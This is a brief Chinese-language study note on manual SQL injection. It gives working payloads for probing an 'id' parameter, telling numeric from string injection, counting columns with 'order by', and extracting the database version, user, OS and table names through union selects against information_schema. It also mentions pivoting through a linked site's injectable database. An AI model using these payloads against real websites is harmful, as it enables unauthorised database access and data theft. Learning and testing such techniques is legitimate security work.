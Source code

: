 ### 新方法：

?id=1这是正常的访问

?id=1hvieug加上一堆乱码，如果返回页面错误，则有注入点

如果加乱码后，页面404，或跳转到其他页面，则表示页面有检测，应该没有注入点



判断数字型：

1/1：正常返回

1/0：异常

判断字符型：

'：异常

''：正常



## 判断列名数量（字段数）

?id=1 order by 1

从1加到页面返回不正常为止

之后就转用union

?id=1 union select 1,2,3,4

注意：页面返回信息可能是1,2,3,4中的某几个，只将能返回的数字替换为要爆出的信息



## 让页面报错

?id=-1



## 得到数据库版本，数据库名等信息

数据库版本：version()

数据库名：database()

用户：user()		eg.root@localhost，root为高权限，高权限注入最简单，其他用户为低权限用户。连接用户是在数据连接的时候决定的。如果一个网站的数据库和其他网站的数据库相关联，而此网站没有注入点，则可以通过其他有注入点的网站获取root权限，从而迂回获取此网站的信息

操作系统：@@version_compile_os	eg.Linux

（也是用select）



## 查询某数据库中所有表名

?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='选定的数据库'
